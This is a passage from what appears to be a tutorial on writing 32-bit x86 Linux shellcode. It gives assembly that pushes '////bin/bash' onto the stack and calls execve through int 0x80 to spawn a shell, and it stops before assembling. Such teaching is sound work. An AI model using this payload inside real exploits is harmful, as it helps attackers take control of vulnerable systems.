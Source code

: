 ```asm
global _start

section .text
_start:

        xor eax, eax
        push eax

        push 0x68736162
        push 0x2f6e6962
        push 0x2f2f2f2f

        mov ebx, esp

        push eax
        mov edx, esp

        push ebx

        mov ecx, esp
```

There we go. Now, all I need to do after this is call the syscall. So
I have

```asm
global _start

section .text
_start:

        xor eax, eax
        push eax

        push 0x68736162
        push 0x2f6e6962
        push 0x2f2f2f2f

        mov ebx, esp

        push eax
        mov edx, esp

        push ebx

        mov ecx, esp

        mov al, 0xb
        int 0x80
```

Now let's go ahead and assemble and link this
